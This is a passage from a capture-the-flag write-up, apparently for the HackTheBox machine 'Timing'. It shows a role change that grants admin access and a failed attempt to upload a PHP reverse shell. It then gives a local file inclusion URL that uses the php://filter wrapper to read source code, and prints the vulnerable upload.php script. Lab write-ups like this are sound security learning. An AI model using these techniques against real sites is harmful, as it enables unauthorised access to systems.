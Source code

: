 Boom and we can see the role change to `1` from `0` let refresh our page to confirm if we have access to the admin dashboard.

![image](https://user-images.githubusercontent.com/69868171/148077360-889e2bc0-272f-40ad-bfae-68af6c13cd74.png)

Boom we are good now we have access to the admin panel and we have an upload page.

![image](https://user-images.githubusercontent.com/69868171/148077767-e6dabd53-3bc9-456f-a659-5845d43bcffe.png)

I quickly try to upload a php file to get a reverse shell but it was a dead end i got error.

![image](https://user-images.githubusercontent.com/69868171/148078516-4ef64e8a-7510-4a7c-bb27-44130abde6f0.png)

Ahhhhhhhhhh let check the `upload.php` source code which we got with the `LFI` .

```
http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=upload.php
```

```
<?php
include("admin_auth_check.php");

$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$error = "";
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

if (isset($_POST["submit"])) {
    $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
    if ($check === false) {
        $error = "Invalid file";
    }
}

// Check if file already exists
if (file_exists($target_file)) {
    $error = "Sorry, file already exists.";
}

if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}

if (empty($error)) {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file has been uploaded.";
    } else {
        echo "Error: There was an error uploading your file.";
    }
} else {
    echo "Error: " . $error;
}
?>
```
